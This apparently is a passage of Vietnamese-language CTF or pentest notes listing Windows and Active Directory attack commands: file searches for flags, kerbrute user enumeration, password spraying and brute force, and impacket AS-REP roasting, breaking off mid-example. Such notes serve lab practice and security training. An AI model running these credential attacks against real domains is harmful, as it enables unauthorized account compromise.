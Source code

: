 > Hiển thị Access Control List (**ACL**) của file hoặc folder

## Get-ChildItem (Tìm file, không hẳn là là enum)
```Bash
Get-ChildItem -Path <Directory> -Include <Pattern> -Recurse | Get-Content
```
> [!important]
> 
> ```Bash
> Get-ChildItem -Path C:\ -Include *flag*.txt -Recurse -ErrorAction SilentlyContinue | Get-Content
> ```
```Bash
Get-Content
type C:\Users\Administrator\Desktop\root.txt
```
---
# \#Kerbrute
```Bash
kerbrute userenum -d <DOMAIN> [--dc <DomainController>] [OPTIONS] <UserListFile>
```
> [!important]
> 
> ```Bash
> kerbrute userenum -d example.local --dc 192.168.1.10 users.txt -t 5 -o valid_users.txt \#Enumerate user hợp lệ
> ```
> 
> ```Bash
> kerbrute passwordspray -d example.local --dc dc.example.local valid_users.txt "Winter2025!" \#Khi đã biết password
> ```
> 
> ```Bash
> kerbrute bruteforce -d example.local userpass.txt \#Bruteforce password
> ```

> [!important]
> 
> ```Bash
> kerbrute userenum userlist.txt --dc $target -d spookysec.local
> ```
> 
> Trong ví dụ này, sau khi thực thi lệnh thì tìm được một user tên svc-admin và nhảy ra hash, ta cần brute-force nó (có thể dùng john).
---

# \#Impacket
> Python scripts & thư viện hỗ trợ khai thác và tương tác với các giao thức mạng, đặc biệt là của Windows/Active Directory.
## Enumeration
### AS-REP Roasting
> Tìm user có “Do **not** require **Kerberos preauthentication**” bật
```Bash
impacket-GetNPUsers <DOMAIN>/ -dc-ip <DC_IP> -usersfile <UserList> -format hashcat -outputfile hashes.txt
```
> [!important]
> 
> ```Bash